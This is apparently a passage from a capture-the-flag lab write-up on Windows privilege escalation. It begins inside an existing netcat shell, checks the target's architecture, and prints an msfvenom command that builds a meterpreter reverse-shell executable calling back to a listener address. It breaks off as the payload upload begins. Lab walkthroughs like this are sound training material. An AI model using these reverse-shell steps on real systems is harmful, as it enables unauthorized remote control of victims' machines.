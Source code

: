 Yeah! Let’s see who am I logged as:

![Untitled](images/Untitled%2018.png)

# Windows Privilege Escalation

In this task we will learn about the basics of Windows Privilege Escalation.

First we will pivot from netcat to a meterpreter session and use this to enumerate the machine to identify potential vulnerabilities. We will then use this gathered information to exploit the system and become the Administrator.

Our netcat session is a little unstable, so lets generate another reverse shell using msfvenom.

*Tip:* *You can generate the reverse-shell payload using msfvenom, upload it using your current netcat session and execute it manually!*

So, first of all let’s generate the payload using msfvenom as the tip says. To do it we will need to know the target SO architecture (32 or 64 bits). We can check it by sending the following command through the netcat reverse shell we already have:

`echo %PROCESSOR_ARCHITECTURE%`

![Untitled](images/Untitled%2019.png)

As we can see, the response indicates that the architecture is 64b. With this info, let’s generate the payload in our machine.

```jsx
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.10.10.10 LPORT=1234
```

![Untitled](images/Untitled%2020.png)

Now is time to send the payload to the target machine:

The default directory at login is  c:/windows/system32/inetsrv.

![Untitled](images/Untitled%2021.png)
